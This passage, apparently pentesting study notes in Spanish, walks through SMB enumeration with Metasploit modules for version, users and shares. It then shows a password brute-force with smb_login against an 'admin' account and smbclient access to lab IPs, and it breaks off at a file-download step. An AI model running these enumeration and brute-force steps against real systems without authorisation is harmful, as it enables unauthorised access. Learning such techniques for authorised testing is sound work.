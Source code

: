 ### Enumeración SMB

SMB es un protocolo de intercambio de archivos para Windows en una red local. Usa normalmente el puerto 445. Samba es la implementación de SMB para Linux. La tecnología de ambas funciona exactamente igual y no varía la técnica de enumeración de una a otra. Filtramos la búsqueda de módulos en msfconsole:

```bash
search type:auxilary name:smb
```

Primero utilizamos el módulo scanner para detectar la versión del servicio:

```bash
use auxiliary/scanner/smb/smb_version
```

Si la salida nos dice que el SO es Windows, pero el servicio que corre es Samba-Ubuntu, el SO correcto que corre en el host es Linux. A continuación enumeramos usuarios:

```bash
use auxiliary/scanner/smb/smb_enumusers
```

Ahora vamos a enumerar recursos compartidos y cambiamos a true la opción “ShowFiles” para que nos los muestre.:

```bash
use auxiliary/scanner/smb/smb_enumshares
set ShowFiles true
```

En este punto podemos utilizar el modulo de fuerza bruta con uno de los usuarios obtenidos antes, por ejemplo, “admin”:

```bash
use auxiliary/scanner/smb/smb_login
set SMBUser admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

Una vez obtenida la contraseña, iniciamos sesión en smbclient (fuera de msfconsole):

```bash
smbclient -L \\\\<IP target>\\ -U <user>
```

Para acceder a un directorio, indicamos la ruta después de las barras de la IP:

```bash
smbclient -L \\\\<IP target>\\<ruta directorio compartido> -U <user>
```

Por ejemplo:

```bash
smbclient -L \\\\192.91.46.3\\public -U admin
smbclient -L \\\\192.91.46.3\\aisha -U admin
```

Para descargar ficheros funciona igual que ftp:
